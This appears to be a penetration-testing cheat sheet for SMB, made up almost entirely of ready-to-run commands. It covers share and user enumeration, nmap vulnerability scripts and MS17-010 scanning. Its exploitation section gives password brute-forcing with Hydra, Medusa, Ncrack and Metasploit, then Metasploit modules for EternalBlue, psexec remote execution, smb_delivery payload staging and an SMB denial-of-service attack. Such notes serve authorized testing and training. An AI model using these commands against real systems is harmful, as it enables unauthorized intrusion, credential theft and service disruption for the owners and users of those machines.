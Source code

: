 ## SMB Enumeration & Exploitation

### * SMB Enumeration
 #### Enumerate Hostname
    nmblookup -A [IP]
 #### List Shares
   ##### smbmap
    smbmap -H 192.168.10.1

    smbmap -R [shared dir] -H 192.168.10.1 = list contents

    smbmap -R [shared dir] -H 192.168.10.1 -A [filename.xml] -q = download content 

    smbmap -d active.htb -u [USER NAME] -p [PASSWORD] -H 192.168.10.1

    smbmap -d active.htb -u [USER NAME] -p [PASSWORD] -H 192.168.10.1 -R [Users] = download all contents in a filename Users

##### smbclient ( -L list shares, -N anonymous logon,)

    smbclient -L //192.168.10.1

    smbclient -L //10.10.10.100 -N

   download all contents in a filename folder[ ! password required]

    smbclient //192.168.10.1/filename

    > recurse ON
 
    > prompt OFF
 
    > mget *
    
 ##### Rpcclient
 
    rpcclient -U "" -N 192.168.1.102
    
    enumdomusers
    
 #### Check Null Sessions
 
 #### Overall Scan
 
    enum4linux -S 192.168.10.1



### Check for Vulnerabilities

    git clone https://github.com/peterpt/eternal_scanner.git && cd eternal_scanner
    
    nmap --script smb-vuln* -p 139,445 [ip]
    
    nmap -T4 -p445 --script smb-vuln-ms17-010 192.168.1.106
    
    use auxiliary/scanner/smb/smb_ms17_010

### Exploitation

 #### Hack SMB Login Password
    1.Hydra - hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
    2.X-Hydra
    3.Medusa - medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt
    4.Ncrack - ncrack –U /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 –p 445
    5.Metasploit
      use auxiliary/scanner/smb/smb_login
      msf exploit (smb_login)>set rhosts 192.168.1.118
      msf exploit (smb_login)>set user_file /root/Desktop/user.txt
      msf exploit (smb_login)>set pass_file /root/Desktop/pass.txt
      msf exploit (smb_login)>set stop_on_success true
      msf exploit (smb_login)>exploit
      
#### Eternal Blue
    use exploit/windows/smb/ms17_010_eternalblue
    msf exploit(ms17_010_eternalblue) > set rhost 192.168.1.101
    msf exploit(ms17_010_eternalblue) > exploit
#### PSexec – To Connect SMB (Username & Password reqiured)
    use exploit/windows/smb/psexec
    msf exploit windows/smb/psexec) > set rhost 192.168.1.101
    msf exploit(windows/smb/psexec) > set smbuser raj
    msf exploit(windows/smb/psexec) > set smbpass 123
    msf exploit(windows/smb/psexec) > exploit
    
#### Rundll32 One-liner to Exploit SMB
    use exploit/windows/smb/smb_delivery
    msf exploit(windows/smb/smb_delivery) > set srvhost 192.168.1.109
    msf exploit(windows/smb/smb_delivery) > exploit
    
#### SMB DOS-Attack
    use auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop
    msf auxiliary(ms10_006_negotiate_response_loop) > set srvhost 192.168.1.106
    msf auxiliary(ms10_006_negotiate_response_loop) > exploit
### NBTSCAN

nbtscan -r 10.0.2.0/24


### NMAP
nmap --script smb-enum-shares -p 139,445 [ip]

nmap --script smb-enum-services -p 445 192.168.10.1 -d

nmap -p 445 -A 192.168.1.101

nmap -p 1-65535 -T4 -O -A -v 10.0.2.15


SMB Enumeration Techniques using Windows Tools:

1. NetBIOS Enumerator (nbtenum)

http://nbtenum.sourceforge.net/
------------------------------------------------------------

SMB\RPC Enumeration (139/445):

    enum4linux –a 10.0.0.1
    nbtscan x.x.x.x // Discover Windows / Samba servers on subnet, finds Windows MAC addresses, netbios name and discover client workgroup / domain
    py 192.168.XXX.XXX 500 50000 dict.txt
    python /usr/share/doc/python-impacket-doc/examples/samrdump.py 192.168.XXX.XXX
    nmap IPADDR --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse
    smbclient -L INSERTIPADDRESS
    smbclient //INSERTIPADDRESS/tmp
    smbclient INSERTIPADDRESS ipc$ -U john
    
_____________________________________________________________________________________________________________________________________
### Other links

https://medium.com/@arnavtripathy98/smb-enumeration-for-penetration-testing-e782a328bf1b

https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html

https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/

https://www.hackingarticles.in/5-ways-to-hack-smb-login-password/

https://www.hackingarticles.in/3-ways-scan-eternal-blue-vulnerability-remote-pc/

https://www.hackingarticles.in/smb-penetration-testing-port-445/

https://www.hackingarticles.in/netbios-and-smb-penetration-testing-on-windows/

